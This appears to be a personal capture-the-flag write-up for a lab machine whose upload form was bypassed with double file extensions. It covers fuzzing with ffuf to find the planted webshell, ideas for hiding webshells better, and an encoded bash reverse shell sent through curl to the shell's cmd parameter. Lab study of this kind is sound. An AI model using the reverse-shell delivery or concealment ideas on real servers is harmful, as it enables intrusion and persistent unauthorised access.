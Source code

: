 # Hacker-vs-Hacker Helped-Through

Name: Hacker-vs-Hacker
Date:  28/1/23
Difficulty:  Easy
Goals:  
- Research Countermeasures
- Improve the counter measures
- Invent or research booby trapping 
- Get DFIR theory-crafting 
Learnt:
Beyond Root:
- Booby traps for battlegrounds
- Better \*-shells for persistence - not the shell code just location, naming, parametres

![1080](thememes.png)

The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

## Recon


The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

THM machine and the comments on the webpages
![](comments.png)

Testing the file upload
![](testingthefileupload.png)
My guess is that the "hacker" is calling out poorly coded php 

cvs directory listing is disabled.
![](possibledirs.png)

Upload test.pdf
![](hmm.png)
Confirmed suspicions, Al mentions that [Conficker](https://en.wikipedia.org/wiki/Conficker) a computer worm patch the vulnerability after getting RCE to prevent other from exploiting the box after it gained access.

The most interesting part is actually the idea that you have to change you methodology for looking for a specifics that a related to hacking. So fuzzing for the webshell is actually considering how he bypassed the original. And although not staeted on stream this adjustment is:
- Hacker has exploited the file upload form, pictured above.
- This code only checks for if there is has a .pdf in the string with [strpos](https://www.php.net/manual/en/function.strpos.php)
-  So with it being an apache web server the deduction need to be made is that it is exploited either with a file that file.pdf.`$php` or file.`$php`.pdf with `$php` potential being various varients

![](ffufforthewin.png)
```bash
ffuf -u http://10.10.72.190/cvs/FUZZ.FUZZ1.FUZZ2 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt:FUZZ1 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt:FUZZ2 -w webshell-names.txt:FUZZ
```


The capabilities of the attacker can be accessed by the naming of the both the file and the parametre used for code execution, from a pure DFIR perspective this not complex, but also not complex enough to be APT-level. The reason this rather benign points is here is that there are ways to improve this that would indicate the motive:
- If it was a randomized file name it would be harder to find for other APTs
- If the parametre is a randomized string, even if the file was found or leaked out some how at another part of the attack chain traces it code excution for other would be prevented  - as cmd is the parametre
- If it was false flagging this is a fake attack chain laid to for whatever reason present because of something related to overall objectives such that it is required to spend time to false flag
	- Potentially being caught to thow of purple team
	- Misleading purple into not considering more complex forms of persistence
```bash
base64encodedpayload=$(echo "/bin/bash -c 'exec bash -i &>/dev/tcp/10.11.3.193/1338 <&1'" | base64 -w0)

curl http://10.10.72.190/cvs/shell.pdf.php?cmd=%22%65%63%68%6f%20%24%62%61%73%65%36%34%65%6e%63%6f%64%65%64%70%61%79%6c%6f%61%64%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%22
```


## Exploit

## Foothold

## PrivEsc

## Beyond Root

I really want to make a couple of machines with this kind of path with obstacles.


